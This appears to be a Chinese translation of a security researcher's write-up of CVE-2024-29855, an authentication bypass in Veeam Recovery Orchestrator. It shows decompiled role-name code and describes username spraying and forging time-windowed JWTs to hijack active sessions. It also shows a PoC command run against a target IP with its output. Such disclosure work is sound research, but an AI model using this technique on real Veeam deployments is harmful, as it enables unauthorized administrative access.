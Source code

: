 首先，“知道用户名”问题“有点”可以通过以下解决方案解决，假设存在一个名为的用户，  
administrator@evilcorp.local可以通过查看 SSL 证书的字段找到域名  
CN，并且可以对用户名进行喷洒，虽然有点蹩脚，但这就是我们现在所拥有的  
  
其次，“知道”角色本身就是个笑话，经过进一步的逆向，我得出结论，角色可能的值只有 5 个，下面是这些角色的定义  
```
 1:  using System;
 2:  using System.Collections.Generic;
 3:  using System.Runtime.CompilerServices;
 4:  
 5:  namespace Veeam.AA.Common.Security
 6:  {
 7:  [NullableContext(1)]
 8:  [Nullable(0)]
 9:  public static class RoleNames
10:  {
11:    public const string Anonymous = "Anonymous";
12:  
13:    public const string Administrator = "DRSiteAdmin";
14:  
15:    public const string PlanAuthor = "DRPlanAuthor";
16:  
17:    public const string PlanOperator = "DRPlanOperator";
18:  
19:    public const string SetupOperator = "SiteSetupOperator";
20:  
21:    public static IReadOnlyCollection<string> AllRoles = new string[] { "DRSiteAdmin", "DRPlanAuthor", "DRPlanOperator", "SiteSetupOperator" };
22:  }
23:  }
```  
  
第三，目标具有活动会话，我们上面讨论过这个，创建的 JWT   
Veeam.AA.Web.Auth.JwtUtils.GenerateJwtToken存储在 InMemoryObjectList 中，因此用户需要登录。  
  
所以现在的计划很简单，在一段时间内生成有效的 JWT 令牌，并将它们喷洒到服务器上，直到我们获得命中。提供的 PoC 是用 python 编写的，我认为其他语言可以做得更快，我希望一个强大的小伙子或小伙子可以制作一个更快的 poc 并让我知道它。  
  
事情经过如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafV99pPHLsfwfIoMZicpXgaXQnbrB4XsG199b3GqVBwtB6Cz53sHl07SS1ZxKz3XRowOsEXFDpWTRg/640?wx_fmt=png&from=appmsg "")  
  
演示  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rWGOWg48tafV99pPHLsfwfIoMZicpXgaXybXNCQyZMo86MV3NnNMHpghwtIubwbKjMUKfso7C2vA5D8lX4YUM1g/640?wx_fmt=gif&from=appmsg "")  
  
```
python CVE-2024-29855.py  --start_time 1718264404 --end_time 1718264652 --username administrator@evilcorp.local --target https://192.168.253.180:9898/

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Veeam Recovery Orchestrator Authentication Bypass (CVE-2024-29855) 

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam)

        (*) Technical details: https://summoning.team/blog/veeam-recovery-Orchestrator-auth-bypass-CVE-2024-29855/


(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
```